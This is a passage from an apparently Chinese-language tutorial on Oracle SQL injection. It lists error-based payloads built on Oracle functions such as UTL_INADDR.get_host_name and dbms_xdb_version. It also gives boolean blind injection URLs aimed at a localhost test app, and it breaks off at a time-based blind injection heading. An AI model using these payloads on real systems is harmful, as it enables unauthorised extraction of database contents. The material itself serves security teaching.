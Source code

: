**dbms\_xdb\_version.checkin**

select dbms\_xdb\_version.checkin((select user from dual)) from dual;

**dbms\_xdb\_version.makeversioned**

select dbms\_xdb\_version.makeversioned((select user from dual)) from dual;

**dbms\_xdb\_version.uncheckout**

select dbms\_xdb\_version.uncheckout((select user from dual)) from dual;

**dbms\_utility.sqlid\_to\_sqlhash**

SELECT dbms\_utility.sqlid\_to\_sqlhash((select user from dual)) from dual;

**ordsys.ord\_dicom.getmappingxpath**

select ordsys.ord\_dicom.getmappingxpath((select user from dual), 1, 1) from dual;

**UTL\_INADDR.get\_host\_name**

select UTL\_INADDR.get\_host\_name((select user from dual)) from dual;

**UTL\_INADDR.get\_host\_address**

select UTL\_INADDR.get\_host\_name('~'||(select user from dual)||'~') from dual;

  

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3.3. 盲注**

**布尔盲注**

**布尔盲注第一种是可以使用简单的字符串比较来进行，比如：**

http://localhost:8080/oracleInject/index?username=admin' and (select substr(user, 1, 1) from dual)='S' --

  

**然后还有一种是通过decode配合除数为0来进行布尔盲注**。

http://localhost:8080/oracleInject/index?username=admin' and 1=(select decode(substr(user, 1, 1), 'S', (1/1),0) from dual) --

  

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**时间盲注**

**1、大量数据**

select count(\*) from all\_objects

**缺点就是不准。**

  

  

**2、时间延迟函数**
